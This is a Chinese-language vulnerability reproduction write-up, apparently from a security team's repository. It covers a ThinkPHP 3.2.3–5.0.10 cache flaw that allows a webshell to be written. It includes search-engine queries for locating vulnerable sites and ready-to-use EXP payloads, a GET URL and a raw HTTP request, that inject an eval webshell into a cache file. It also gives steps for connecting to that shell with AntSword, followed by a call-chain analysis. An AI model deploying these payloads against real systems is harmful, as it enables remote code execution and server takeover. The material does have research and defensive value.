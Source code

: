 # SSV-96340

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** phpthink3.2.3-5.0.10缓存函数设计缺陷可导致Getshell



## **0x00 空间搜索引擎相关查询语法**

```python
[FOFA]
body="ThinkPHP" && body="版本 V3.2.3"

[鹰图]
web.body="ThinkPHP" && web.body="版本 V3.2.3"
```

## 0x01 漏洞利用前置条件

- 影响范围之内：**phpthink3.2.3-5.0.10**
- 开启缓存功能；
- 能够猜解出缓存文件名（文件名生成有一定规律）
- 缓存内容可控或部分可控，即找到写入的位置（一般与数据库交互的地方）
- 缓存文件名可由泄露的源码已知，或者可猜测，规律为使用常见的名词，如user、news、goods、article，然后对这些名称md5编码。

该漏洞一般配合其他漏洞使用

## 0x02 环境搭建

```php
github下载3.2.3版本   https://github.com/top-think/thinkphp/releases/tag/3.2.3
用phpstorm启动即可
```

## 0x03 漏洞复现

拿到目标版本源码或者知道以上前置条件中的信息后，需要源码文件地址为：`Application/Home/Controller/IndexController.class.php`， 假如文件内容如下：

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>:)</h1><p>欢迎使用 <b>ThinkPHP</b>！</p><br/>版本 V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
    }

    public function get()
    {
        $a=I('get.id');
        S('id',$a);
    }
    public function post()
    {
        $a=I('gpost.id');
        S('id',$a);
    }
}
```

因此EXP为

```php
// get()函数对应的EXP
http://url/index.php/Home/Index/get?id=%0d%0a@eval($_REQUEST['cmd']);%0d%0a//

// post()函数对应的EXP
GET /index.php/Home/Index/post HTTP/1.1
Host: URL
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

id=%0d%0a@eval($_REQUEST['cmd']);%0d%0a//
```

接着我们使用蚁剑访问以下路径

```php
URL地址：http://URL/Application/Runtime/Temp/文件名md5值.php
密码：cmd

// 文件名指的是 S('postid',$a);第一个参数的值
```

![Untitled](image/Untitled.png)

 

## 0x04 利用链分析

先找到漏洞点`Application/Home/Controller/IndexController.class.php`

![Untitled](image/Untitled%201.png)

**知识拓展：**

- 在 ThinkPHP 中，**`I()`** 函数用于获取请求参数。这个函数通常用于从 **`$_GET`**、**`$_POST`**、**`$_REQUEST`** 或其他来源获取参数值，并且它支持点语法来获取嵌套的参数值。
  
    **`I('get.id')`** 表示从 GET 请求参数中获取名为 **`id`** 的参数值。这是通过点语法来指定参数名的，其中 **`get`** 是请求类型（GET 请求），**`id`** 是参数名。
    
    例如，如果你的 URL 是这样的：**`http://example.com/page.php?id=123`**，那么 **`I('get.id')`** 将返回 **`123`**，即 GET 请求中名为 **`id`** 的参数的值。
    
- 在 ThinkPHP 中，**`S()`** 函数用于操作缓存。**`S('id', $a)`** 表示将变量 **`$a`** 存储到名为 **`id`** 的缓存中。
  
    这个函数通常用于将数据存储到缓存中，以便稍后可以通过相同的键来检索它。在这种情况下，**`id`** 是缓存的键，而 **`$a`** 是要存储的值。
    

开启debug模式，对`$a=I('[get.id](http://get.id/)');`增加断点调试

![Untitled](image/Untitled%202.png)

在这里，我们看到了$_config的值

![Untitled](image/Untitled%203.png)

接着我们进入`S('id',$a);`函数内分析

![Untitled](image/Untitled%204.png)

继续跟进

![Untitled](image/Untitled%205.png)

进入该函数继续分析

![Untitled](image/Untitled%206.png)

![Untitled](image/Untitled%207.png)

我们看看connect函数都做了什么事

![Untitled](image/Untitled%208.png)

![Untitled](image/Untitled%209.png)

因此，`$class = strpos($type, '\\') ? $type : 'Think\\Cache\\Driver\\' . ucwords(strtolower($type));` 结果为$_class = 'Think\\Cache\\Driver\\File' 。

![Untitled](image/Untitled%2010.png)

跟进， `$cache = new $class($options);`

![Untitled](image/Untitled%2011.png)

通过`$_config`和`C('DATA_CACHE_PATH')`可知 `$this->options['temp']`其实等于`./Application/Runtime/Temp/`

继续往下，会发现走到了`$this->init();` 

![Untitled](image/Untitled%2012.png)

就是创建缓存目录

![Untitled](image/Untitled%2013.png)

![Untitled](image/Untitled%2014.png)

由于前面获取到的`"DATA_CACHE_TIME":0` 因此 `$expire=0`

继续跟进set函数

![Untitled](image/Untitled%2015.png)

![Untitled](image/Untitled%2016.png)